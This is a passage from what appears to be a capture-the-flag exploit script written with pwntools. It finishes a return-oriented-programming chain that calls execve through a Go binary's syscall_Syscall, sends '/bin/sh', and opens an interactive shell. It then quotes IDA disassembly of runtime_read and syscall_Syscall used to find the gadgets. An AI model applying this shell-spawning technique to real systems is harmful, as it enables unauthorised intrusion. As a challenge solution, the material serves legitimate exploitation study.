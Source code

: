 ```python
pay += p64(syscall_Syscall) +p64(add_rsp_ret) +p64(59)+p64(0x54fff0)+p64(0)+p64(0)

cn.sendline(pay)
cn.sendline('/bin/sh\x00')

cn.interactive()


'''
.text:0000000000452140 ; void __cdecl runtime_read()
.text:0000000000452140                 public runtime_read
.text:0000000000452140 runtime_read    proc near               ; CODE XREF: runtime_sysargs+1EE↑p
.text:0000000000452140                                         ; runtime_getRandomData+E2↑p
.text:0000000000452140
.text:0000000000452140 fd              = qword ptr  8
.text:0000000000452140 buf             = qword ptr  10h
.text:0000000000452140 count           = qword ptr  18h
.text:0000000000452140 arg_18          = dword ptr  20h
.text:0000000000452140
.text:0000000000452140                 mov     edi, dword ptr [rsp+fd] ; fd
.text:0000000000452144                 mov     rsi, [rsp+buf]  ; buf
.text:0000000000452149                 mov     edx, dword ptr [rsp+count] ; count
.text:000000000045214D                 xor     eax, eax
.text:000000000045214F                 syscall                 ; LINUX - sys_read
.text:0000000000452151                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:0000000000452157                 jbe     short loc_45215E
.text:0000000000452159                 mov     eax, 0FFFFFFFFh
.text:000000000045215E
.text:000000000045215E loc_45215E:                             ; CODE XREF: runtime_read+17↑j
.text:000000000045215E                 mov     [rsp+arg_18], eax
.text:0000000000452162                 retn
.text:0000000000452162 runtime_read    endp
'''

'''
.text:0000000000462980 ; void __cdecl syscall_Syscall()
.text:0000000000462980                 public syscall_Syscall
.text:0000000000462980 syscall_Syscall proc near               ; CODE XREF: syscall_Close+45↑p
.text:0000000000462980                                         ; syscall_fcntl+47↑p ...
.text:0000000000462980
.text:0000000000462980 arg_0           = qword ptr  8
.text:0000000000462980 dummy           = dword ptr  10h
.text:0000000000462980 arg_10          = qword ptr  18h
.text:0000000000462980 arg_18          = qword ptr  20h
.text:0000000000462980 arg_20          = qword ptr  28h
.text:0000000000462980 arg_28          = qword ptr  30h
.text:0000000000462980 arg_30          = qword ptr  38h
.text:0000000000462980
.text:0000000000462980                 call    runtime_entersyscall
.text:0000000000462985                 mov     rdi, qword ptr [rsp+dummy] ; dummy
.text:000000000046298A                 mov     rsi, [rsp+arg_10]
.text:000000000046298F                 mov     rdx, [rsp+arg_18]
.text:0000000000462994                 xor     r10d, r10d
.text:0000000000462997                 xor     r8d, r8d
.text:000000000046299A                 xor     r9d, r9d
.text:000000000046299D                 mov     rax, [rsp+arg_0]
.text:00000000004629A2                 syscall                 ; LINUX -
.text:00000000004629A4                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:00000000004629AA                 jbe     short loc_4629CC
.text:00000000004629AC                 mov     [rsp+arg_20], 0FFFFFFFFFFFFFFFFh
.text:00000000004629B5                 mov     [rsp+arg_28], 0
.text:00000000004629BE                 neg     rax
.text:00000000004629C1                 mov     [rsp+arg_30], rax
```